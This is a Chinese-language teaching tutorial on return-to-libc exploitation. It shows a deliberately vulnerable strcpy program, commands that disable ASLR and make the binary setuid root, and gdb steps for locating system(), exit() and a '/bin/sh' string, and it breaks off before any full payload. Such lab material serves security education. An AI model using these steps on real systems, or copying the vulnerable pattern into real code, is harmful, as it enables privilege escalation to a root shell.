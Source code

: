 #
#### 概述
为了抵御函数返回时跳转到恶意代码在栈中的位置执行，操作系统将程序的栈标记为不可执行。因此攻击者就无法在运行注入的代码，只能想办法借助内存中已有的代码进行攻击。  

内存中有一个区域存放着很多代码，主要时标准C语言库函数。在linux中被称为libc，它是一个动态链接库。这些libc库会在函数运行前加载到内存中。  

在libc库中最容易被利用的就是system()函数，如果想要在缓冲区溢出后运行一个shell，无须自己编写shellcode，只需要跳转到system，让他来运行`/bin/sh`即可。  


#### 漏洞代码
还是和缓冲区溢出攻击中的漏洞代码一样，只是编译是打开了不可执行栈的保护
```
// stack.c
# include <string.h>
# include <stdio.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char const *argv[])
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);

    printf("it's ok!");
    return 0;
}
```
```
sudo sysctl -w kernel.randomize_va_space=0
gcc -o stack -g -fno-stack-protector stack.c 
sudo chown root stack
sudo chmod 4755 stack
```


#### 发起攻击
为了通过system运行`/bin/sh`需要完成三个步骤  

**1.找到system函数的地址，把漏洞程序中函数的返回地址改成该地址**
```
ubuntu@VM-0-17-ubuntu:~$ gdb -q stack
Reading symbols from stack...done.
(gdb) p system
No symbol "system" in current context.
(gdb) run
Starting program: /home/ubuntu/stack 

Program received signal SIGSEGV, Segmentation fault.
0xbffff4ac in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e54db0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e489e0 <__GI_exit>
```
在关闭了地址随机化的情况下，对同一个程序，这个函数库总是被加载到相同的内存地址。  
在gdb中需要run指令来执行目标程序，不然libc函数不会被加载到内存中。  
需要注意的是特权程序和非特权程序打印的地址可能是不一样的，所有可以先把漏洞程序改为特权程序在答应system函数地址。  


**2.找到字符串/bin/sh的地址，为了让system执行一个命令，命令的名字需要预先放在内存中。**  
有多种方式可以拿到字符串的地址。例如，可以在溢出攻击的时候，把字符串放入内存中。  
还有一种更简单的方式是通过环境变量，在运行漏洞程序之前，定义一个环境变量SHANSHELL="/bin/sh",并用export导出，该变量就会传递给子进程出现在漏洞程序内存中。
```
ubuntu@VM-0-17-ubuntu:~$ SHANSHELL="/bin/sh"
ubuntu@VM-0-17-ubuntu:~$ export SHANSHELL
ubuntu@VM-0-17-ubuntu:~$ gdb -q stack
Reading symbols from stack...done.
(gdb) b main
Breakpoint 1 at 0x80484ee: file stack.c, line 16.
(gdb) run
Starting program: /home/ubuntu/stack 

Breakpoint 1, main (argc=1, argv=0xbffff6a4) at stack.c:16
16	    badfile = fopen("badfile", "r");
(gdb) x/100s *((char **)environ)   # x/100s查看接下来的 100 个字符串
...
0xbfffffc1:	"HISTTIMEFORMAT=%F %T "
0xbfffffd7:	"SHANSHELL=/bin/sh"
0xbfffffe9:	"/home/ubuntu/stack" 
...

```
`0xbfffffe9:	"/home/ubuntu/stack"`在环境变量入栈前，程序的文件名会先被压入栈，因此程序名的长度会影响环境变量的地址


**3.system函数的参数**  
由于system并不是常规的方式被调用的,漏洞程序只是跳转到system函数的入口，因此函数所需的参数不在栈中。所以需要自行将参数放入栈中。

![](/software-security/img/return-to-libc-1.png)

首先需要知道进入system函数后ebp的确切位置。通过ebp知道了返回地址是 ebp+4， 参数是 ebp+8 ,所以需要把字符串/bin/sh的地址放到比ebp高8字节的位置。 那么system函数后ebp是多少呢？

![](/software-security/img/buffer2.png)  

在了解内存布局的时候，我们知道了，在进入一个函数帧栈的时候，会把上一个帧栈指针压入栈，然后把esp的值赋给ebp当作新的栈底。在进入system函数之前esp是指在返回地址上的，一旦程序跳转到system()中，它的函数序言将被执行，导致esp下移4个字节，并且ebp被设置成esp的当前值。

















